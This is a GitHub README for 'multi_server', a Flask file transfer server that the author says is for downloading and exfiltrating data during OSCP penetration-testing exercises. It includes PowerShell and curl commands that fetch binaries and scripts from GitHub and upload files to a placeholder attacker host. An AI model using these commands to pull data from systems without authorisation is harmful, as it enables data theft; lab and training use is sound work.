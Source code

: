 # multi_server

**Warning : This app is designed to help during the OSCP to download/exfiltrate datas. Not to be run in production.**

Tested on : Python 3.9

A simple server in Flask to download/upload files.

## Binaries

For example on Windows :

    PS > iwr -uri https://github.com/adann0/multi_server/releases/download/v0.0.1/multi_server.exe -outfile multi_server.exe
 
Then you can run :

    PS > .\multi_server.exe <port>

You can access the webapp at `http://<ip>:<port>`.

You can download the files in the current folder from the command line, for example :

    PS > iwr -uri http://<ip>:<port>/<file> -outfile <file>

You can also upload your files, on Linux :

    $ curl -X POST -F "file=@<file_path>" http://<ip>:<port>/upload

Or with Powershell :

    PS > iwr -uri https://raw.githubusercontent.com/adann0/multi_server/main/upload.ps1 -outfile upload.ps1
    PS > .\upload.ps1 -ip <ip> [-port <port>] -file <file_path> 

The uploaded files are in **uploads/**.

## Python Module

	$ git clone https://github.com/adann0/multi_server.git
	$ cd multi_server
	$ python3 -m venv venv
	$ source venv/bin/activate
	$ pip install -r requirements.txt
	$ pip install .

You can then run the Server :

	$ python3 -m multi_server <port>

## PyInstaller

	$ pyinstaller --add-data multi_server/templates:templates --name multi_server --onefile --clean multi_server/__main__.py

## Source

- https://www.geeksforgeeks.org/how-to-upload-file-in-python-flask/
